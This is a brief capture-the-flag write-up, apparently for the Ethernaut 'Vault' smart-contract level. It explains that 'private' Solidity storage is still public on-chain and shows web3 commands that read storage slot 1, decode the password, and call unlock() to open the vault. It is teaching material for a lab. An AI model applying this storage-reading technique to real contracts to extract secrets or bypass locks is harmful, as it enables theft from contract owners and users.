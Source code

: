 # Set locked to false / Unlock Vault

Objective is to find private password. `private` visibility modifier only meant that other contracts not allowed to read it, however one can still access if its stored on blockchain since EVM state is public

We access storage at slot 1 of vault since its the second variable declared.
```
web3.eth.getStorageAt(contract.address, 1)
```

We can decode the hex value to see the password
```
web3.utils.hexToAscii('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')
```

However this step is not necessary, proceed to unlock the vault
```
contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')
```

Verify
```
contract.locked()
// Output: false
```